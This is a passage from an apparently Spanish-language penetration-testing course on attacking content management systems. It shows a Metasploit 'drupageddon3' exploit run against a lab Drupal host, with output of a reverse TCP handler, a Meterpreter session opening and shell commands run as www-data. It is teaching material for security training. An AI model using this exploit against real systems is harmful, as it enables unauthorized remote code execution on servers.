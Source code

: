 Si tiene éxito, obtendremos una carcasa inversa en el host de destino.

Atacando a Drupal

```
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)

meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic#91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64Meterpreter : php/linux

```

---

# **Adelante**

Hemos enumerado y atacado algunos de los CM más frecuentes: WordPress, Drupal y Joomla. A continuación, pasemos a Tomcat, que ha estado poniendo una sonrisa en la cara de Pentesters durante años.
